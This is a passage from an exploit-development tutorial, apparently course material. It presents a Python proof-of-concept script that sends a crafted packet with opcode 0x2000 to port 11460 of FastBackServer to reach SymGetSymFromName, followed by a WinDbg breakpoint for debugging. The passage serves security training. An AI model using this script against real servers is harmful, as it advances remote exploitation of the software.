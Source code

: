 Our next goal is to develop a proof of concept that will trigger the SymGetSymFromName call inside FXCLI_DebugDispatch. We'll reuse our basic proof of concept from the previous modules, and update the opcode value.
import socket
import sys
from struct import pack

# psAgentCommand
buf = bytearray([0x41]*0xC)
buf += pack("<i", 0x2000)  # opcode
buf += pack("<i", 0x0)    # 1st memcpy: offset
buf += pack("<i", 0x100)  # 1st memcpy: size field
buf += pack("<i", 0x100)  # 2nd memcpy: offset
buf += pack("<i", 0x100)  # 2nd memcpy: size field
buf += pack("<i", 0x200)  # 3rd memcpy: offset
buf += pack("<i", 0x100)  # 3rd memcpy: size field
buf += bytearray([0x41]*0x8)

# psCommandBuffer
buf += b"A" * 0x100
buf += b"B" * 0x100
buf += b"C" * 0x100

# Checksum
buf = pack(">i", len(buf)-4) + buf

def main():
        if len(sys.argv) != 2:
                print("Usage: %s <ip_address>\n" % (sys.argv[0]))
                sys.exit(1)
        
        server = sys.argv[1]
        port = 11460

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((server, port))

        s.send(buf)
        s.close()

        print("[+] Packet sent")
        sys.exit(0)


if __name__ == "__main__":
 	main()


Our modified proof of concept uses the opcode value 0x2000 along with a psCommandbuffer consisting of 0x100 As, Bs, and Cs

Since WinDbg is already attached to FastBackServer, we can place a breakpoint on the comparison of the opcode value. Because WDEG cannot randomize the base address of FastBackServer, we can continue using the static addresses found in IDA Pro for our breakpoint.
	bp 0x56d1ef
	g
	